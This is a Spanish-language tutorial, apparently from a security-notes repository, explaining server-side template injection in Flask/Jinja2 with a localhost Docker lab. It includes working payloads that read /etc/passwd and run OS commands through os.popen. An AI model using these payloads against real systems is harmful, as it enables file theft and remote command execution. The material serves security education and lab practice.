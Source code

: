 # Server-Side Template Injection (SSTI)

El **Server-Side Template Injection** (**SSTI**) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor.

Las plantillas de servidor son archivos que contienen código que se utiliza para generar **contenido dinámico** en una aplicación web. Los atacantes pueden aprovechar una vulnerabilidad de SSTI para inyectar código malicioso en una plantilla de servidor, lo que les permite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la aplicación web como a posibles datos sensibles.

Por ejemplo, imagina que una aplicación web utiliza plantillas de servidor para generar correos electrónicos personalizados. Un atacante podría aprovechar una vulnerabilidad de **SSTI** para inyectar código malicioso en la plantilla de correo electrónico, lo que permitiría al atacante ejecutar comandos en el servidor y obtener acceso no autorizado a los datos sensibles de la aplicación web.

En un caso práctico, los atacantes pueden detectar si una aplicación Flask está en uso, por ejemplo, utilizando herramientas como **WhatWeb**. Si un atacante detecta que una aplicación **Flask** está en uso, puede intentar explotar una vulnerabilidad de **SSTI**, ya que Flask utiliza el motor de plantillas **Jinja2**, que es vulnerable a este tipo de ataque.

Para los atacantes, detectar una aplicación Flask o Python puede ser un primer paso en el proceso de intentar explotar una vulnerabilidad de SSTI. Sin embargo, los atacantes también pueden intentar identificar vulnerabilidades de SSTI en otras aplicaciones web que utilicen diferentes frameworks de plantillas, como Django, Ruby on Rails, entre otros.

Para prevenir los ataques de SSTI, los desarrolladores de aplicaciones web deben validar y filtrar adecuadamente la entrada del usuario y utilizar herramientas y frameworks de plantillas seguros que implementen medidas de seguridad para prevenir la inyección de código malicioso.

### Prueba de concepto SSTI

* Creación del contenedor con docker:

```bash
❯ docker run -p 8089:8089 -d filipkarc/ssti-flask-hacking-playground
```

* Prueba para ver si es **vulnerable** a **SSTI**

**➜** `http://localhost:8089/?user={{2*2}}`:

Mas información en **➜** [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2)

* Leer archivo interno de la máquina:

**➜** `http://localhost:8089/?user={{%20get_flashed_messages.__globals__.__builtins__.open(%22/etc/passwd%22).read()%20}}`

* Ejecutar comandos remotamente a tráves del SSTI:

**➜** `http://localhost:8089/?user={{%20self.__init__.__globals__.__builtins__.__import__(%27os%27).popen(%27whoami%27).read()%20}}`
